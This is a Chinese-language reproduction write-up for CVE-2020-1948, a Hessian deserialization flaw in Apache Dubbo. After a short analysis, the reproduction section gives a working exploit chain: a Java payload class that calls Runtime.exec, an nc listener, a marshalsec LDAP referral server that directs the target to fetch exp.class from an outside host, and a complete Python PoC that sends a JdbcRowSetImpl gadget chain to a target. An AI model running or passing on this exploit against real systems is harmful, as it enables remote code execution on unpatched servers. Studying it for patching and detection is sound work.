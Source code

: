 （CVE-2020-1948）Apache Dubbo Hessian 反序列化漏洞
==================================================

一、漏洞简介
------------

攻击者可以发送带有无法识别的服务名或方法名及某些恶意参数负载的RPC请求，当恶意参数被反序列化时将导致代码执行

二、漏洞影响
------------

2.7.0 \<= Apache Dubbo \<= 2.7.7

2.6.0 \<= Apache Dubbo \<= 2.6.7

Apache Dubbo 全部 2.5.x 版本

三、复现过程
------------

### 漏洞分析

Hessian是一个轻量级的RPC框架。它基于HTTP协议传输，使用Hessian二进制序列化，对于数据包比较大的情况比较友好。使用hession的web项目需要配置web.xml,映射`com.caucho.hessian.server.HessianServlet`之相应的路径

![1.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId25.png)

Java客户端可以很方便的调用服务器上的方法,如下

![2.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId26.png)

查看`com.caucho.hessian.server.HessianServlet`的代码service方法处理客户端发来的http请求,调用

![3.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId27.png)

![4.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId28.png)

调用HessianSkeleton的invoke方法,将从客户端发来的数据流中读取对象

![5.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId29.png)

看代码里面好像没有什么黑白名单过滤机制通过抓取请求包,分析,构造请求包,将marshalsec工具生成的Resion
payload发送给服务器下面是构造请求包的`CVE-2020-1948.py`代码

![6.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId30.png)

利用图

![7.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId31.png)

![8.png](./resource/(CVE-2020-1948)ApacheDubboHessian反序列化漏洞/media/rId32.png)

### 漏洞复现

#### 构造poc

    ## exp.java
    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.util.Hashtable;

    public class exp {
        public exp(){
            try {
                java.lang.Runtime.getRuntime().exec("calc.exe");
            } catch (java.io.IOException e) {
                e.printStackTrace();
            }
        }
    }

> 编译poc

    javac exp.java

#### nc监听

    nc -lvvp 12345

#### 服务器开启web服务，并将生成好的exp.class放置web目录

#### 启动 LDAP 代理服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://www.0-sec.org/#exp 81

> marshalsec 下载：

    https://download.0-sec.org/Web安全/java反序列化漏洞/marshalsec-0.0.3-SNAPSHOT-all.jar

#### py脚本测试

> 安装依赖包

    pip install dubbo-py

> 运行

    python poc.py www.target.com 12345 ldap://www.yourweb:81/exp

> 除了通过返回信息来判断外，观察 LDAP
> 代理是否出现请求转发也是判断POC利用是否成功的重要依据:

    # LDAP Refer Server Output
    Send LDAP reference result for exp redirecting to http://www.0-sec.org/exp.class
    # poc.py
    # -*- coding: utf-8 -*-

    import sys

    from dubbo.codec.hessian2 import Decoder,new_object
    from dubbo.client import DubboClient

    if len(sys.argv) < 4:
      print('Usage: python {} DUBBO_HOST DUBBO_PORT LDAP_URL'.format(sys.argv[0]))
      print('\nExample:\n\n- python {} 1.1.1.1 12345 ldap://1.1.1.6:80/exp'.format(sys.argv[0]))
      sys.exit()

    client = DubboClient(sys.argv[1], int(sys.argv[2]))

    JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource=sys.argv[3],
      strMatchColumns=["foo"]
      )
    JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
    toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

    resp = client.send_request_and_return_response(
      service_name='org.apache.dubbo.spring.boot.sample.consumer.DemoService',
      # 此处可以是 $invoke、$invokeSync、$echo 等，通杀 2.7.7 及 CVE 公布的所有版本。
      method_name='$invoke',
      args=[toStringBean])

    output = str(resp)
    if 'Fail to decode request due to: RpcInvocation' in output:
      print('[!] Target maybe not support deserialization.')
    elif 'EXCEPTION: Could not complete class com.sun.rowset.JdbcRowSetImpl.toString()' in output:
       print('[+] Succeed.')
    else:
      print('[!] Output:')
      print(output)
      print('[!] Target maybe not use dubbo-remoting library.')

参考链接
--------

> https://github.com/DSO-Lab/Dubbo-CVE-2020-1948/wiki

